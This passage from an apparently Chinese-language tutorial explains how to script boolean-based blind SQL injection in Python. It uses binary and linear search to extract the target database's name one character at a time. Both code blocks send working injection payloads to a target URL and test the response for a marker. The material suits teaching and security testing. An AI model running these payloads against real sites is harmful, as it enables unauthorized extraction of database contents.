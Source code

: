 2. 二分算法实现查找过程：

原理如下：与传统的二分算法不同在于，是否能够找得到对 SQL 盲注来说是一件非常重要的事情。

网络上有的作者写的是不能判断，因此程序或有 bug。

其实没有必要，只需利用二分查找过程中的“相等匹配”即可“立刻”判断出是否找到。

```python
low = 32
high = 126
while high >= low:
    mid = (low + high) // 2  # 取整

    # 第一次判断是否相等
    payload = f"1' and ascii(substr(database(),{j},{j}))={mid} --+"
    r = requests.get(base_url + payload)
    if mark in r.text:
        db_name += chr(mid)
        print('database:', db_name)
        exit_flag = False
        break
    pass

    # 再判断范围，然后缩小范围
    payload = f"1' and ascii(substr(database(),{j},{j}))>{mid} --+"
    r = requests.get(base_url + payload)
    if mark in r.text:
        low = mid + 1
    else:
        high = mid - 1
    pass
```

### 找出完整信息

在上述的基础之上，怎么知道当前的字符是否判断完整？

针对于这个问题，有网友提出解决办法是在“猜”字符 ASCII 码前，先用 `length()`“猜”出长度即可控制程序循环逻辑。

但这无异于增加程序逻辑复杂性。解决办法其实比较简单，用两层循环即可完成该目标。

线性搜索如下：

```python
j = 1
exit_flag = False
while not exit_flag:
    # 总是假设该轮循环会退出
    exit_flag = True
    for i in range(32, 127):
        payload = f"1' and ascii(substr(database(),{j},{j}))={i} --+"
        r = requests.get(base_url + payload)
        if mark in r.text:
            db_name += chr(i)
            print('database:', db_name)
            # 已找到一个字符，说明下一轮「可能」还会有字符，因此不能退出
            exit_flag = False
            break
        pass
    j += 1
return db_name
```
